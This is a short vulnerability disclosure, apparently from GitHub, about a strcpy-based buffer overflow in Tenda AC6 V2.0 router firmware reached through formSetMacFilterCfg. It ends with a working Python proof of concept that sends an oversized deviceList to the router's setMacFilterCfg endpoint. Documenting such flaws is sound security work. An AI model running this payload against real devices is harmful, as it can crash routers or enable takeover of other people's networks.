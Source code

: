 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "formSetMacFilterCfg"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/2855)

In the function `formSetMacFilterCfg`, user-supplied parameters **`macFilterType`** and **`deviceList`** are passed to a function **without input validation**, ultimately leading to an **overflow**.

formSetMacFilterCfg-》set_macfilter_rules-》set_macfilter_rules_by_one-》parse_macfilter_rule-》strcpy

![image-20250614182456806](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250614182456806.png)

![image-20250619135927395](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250619135927395.png)

![image-20250619135900666](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250619135900666.png)

poc

```
import requests
def send_payload(url, type,list):
    params = {b'macFilterType': type,b'deviceList': list}
    cookie={'password':'ssetgb'}
    response = requests.post(url, cookies=cookie, data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")
url="http://192.168.1.1/goform/setMacFilterCfg"
type=b'black'
list="DEADBEEFAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\r11"
send_payload(url, type, list)
```

![image-20250616215744978](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250616215744978.png)